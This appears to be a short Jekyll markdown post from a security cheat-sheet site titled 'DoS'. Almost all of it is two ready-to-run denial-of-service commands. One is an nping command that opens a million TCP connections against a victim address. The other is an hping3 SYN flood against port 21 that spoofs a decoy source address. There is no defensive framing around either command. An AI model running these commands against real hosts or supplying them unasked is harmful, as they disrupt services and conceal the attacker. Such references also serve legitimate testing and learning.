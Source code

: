 ```yaml
---
layout: post
title:  "DoS"
categories: scan deny
summary: Take lot of TCP connections to target and create Denial-of-service (DoS)
---
```


{% include instructions.md %}

# {{page.title}}

Take lot of TCP connections to target
```shell
# nping --tcp-connect --rate=1000000 --count 1000000 [victim ip address or domain]
```

Send much as possible TCP connections to target to port 21 and change source address to a decoy IP address. Flood by sending 10000 packets using SYN flag and data size is 120.
```shell
$ sudo hping3 -V -c 10000 -d 120 -S -p 21 --flood [victim ip address] -a [decoy ip address]
```